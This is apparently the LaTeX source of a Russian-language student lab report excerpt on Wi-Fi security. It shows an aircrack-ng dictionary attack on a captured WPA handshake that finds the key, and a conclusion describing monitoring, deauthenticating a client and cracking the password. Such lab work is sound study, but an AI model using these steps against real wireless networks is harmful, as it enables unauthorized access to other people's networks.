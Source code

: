 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{verbatim}
crazy-mini alex # aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap
Read 20931 packets.

   #  BSSID              ESSID                     Encryption

   1  1C:7E:E5:39:26:F8  18                        WPA (1 handshake)

Choosing first network as target.

Opening dump-05.cap
Reading packets, please wait...

                                 Aircrack-ng 1.1


                   [00:01:51] 91444 keys tested (845.44 k/s)


                         KEY FOUND! [ olikujyhtgrf ]


      Master Key     : CB A9 50 ED 43 34 9F 6E C1 CD 22 48 71 3C 21 F3 
                       7D 11 CE BF 37 E0 B4 62 CE 4B EC 03 32 DB 47 B1 

      Transient Key  : 9B 6F B4 1A E5 6C E0 96 13 BD CB 53 47 F5 E6 AE 
                       74 18 DC B4 6B 74 CE AF CD 52 B1 E8 A3 00 73 B8 
                       43 D3 84 3B C2 74 7C 4E BE 74 3B A5 80 5D 4F 92 
                       25 8C 45 86 45 97 1A 41 E6 58 18 9E 94 FE 1C BB 

      EAPOL HMAC     : 23 38 A3 41 34 98 88 00 4C 73 54 67 39 E9 DB 87 

\end{verbatim}



\section{Выводы}

В ходе данной лабораторной работы был рассмотрен AirCrack с такими его уилитами, как: airmon-ng, airodump-ng, aireplay-ng и aircrack-ng.
 
Произведен мониоринг на беспроводном инерфейсе, ослеживающий аутентификации в сети, а также осуществлена деаутентификация одного из клиентов и перехвачен введенный им пароль. В итоге осуществден взлом, посредсвом словаря паролей.
\end{document}
